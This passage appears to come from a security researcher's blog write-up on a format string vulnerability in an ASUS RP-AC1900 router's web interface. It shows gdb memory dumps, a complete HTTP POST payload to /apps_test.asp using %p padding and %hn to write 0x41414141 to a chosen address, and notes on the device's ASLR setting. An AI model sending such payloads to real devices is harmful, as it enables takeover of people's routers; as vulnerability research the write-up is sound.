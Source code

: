 gdb output after the request:
```bash
^C
Program received signal SIGINT, Interrupt.
0x4055d4cc in select () from /lib/libc.so.0
(gdb) x 0xbe8560f0
0xbe8560f0:     0x000000ad
(gdb)
```

and, bad ass. I control where in memory to write. Obligatory payload screenshot:

![arb_write](/post/asus/images/arbWrite-1.PNG)

Now, using some format string tricks, let's set that location to 0x41414141:
```html
POST /apps_test.asp HTTP/1.1
Host: 192.168.1.200
Content-Length: 153
[...]
Cookie: clickedItem_tab=0; asus_token=HkH6QMvpbgCA0MXzYyHvzI0FVGs1PXc

apps_action=install&apps_name=AAA%f0%60%85%beJUNK%f2%60%85%be%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%2516534p%25hn%2565536p%25hn&apps_flag=B
```

This basically entails adding a specific number of "padding bytes" to the request, using a format string  trick. By prepending the "p" with a number, the application will interpret it as a number of "%p"s (or equivalent). This way, the app can be forced to "print" a number of bytes which will pad the output to a specific value. Since we're trying to write 0x4141, and the application writes 0xAD by default, the request needs to have an additional 16,532 bytes of padding. Literally writing "%16532p" will add the required padding and cause 0x4141 to be written to the location. Now, in order to write the next 0x4141, 65536 bytes of padding must be written, to fully roll over and account for ARM.

here's the GDB output:
```bash
^C
Program received signal SIGINT, Interrupt.
0x4055d4cc in select () from /lib/libc.so.0
(gdb) x 0xbe8560f0
0xbe8560f0:     0x41414141
(gdb)
```

It's totally gross, but also awesome. This is proof it's possible to write data to arbitrary locations in memory. If there were no PIE, ASLR, etc, this could be used as-is to simply write to an arbitrary location, and move to it somehow. Sadly, the system does have ASLR enabled, though it's only in mode "1":
```bash
admin@RP-AC1900-4828:/tmp/home/root# cat /proc/sys/kernel/randomize_va_space
1
admin@RP-AC1900-4828:/tmp/home/root#
```
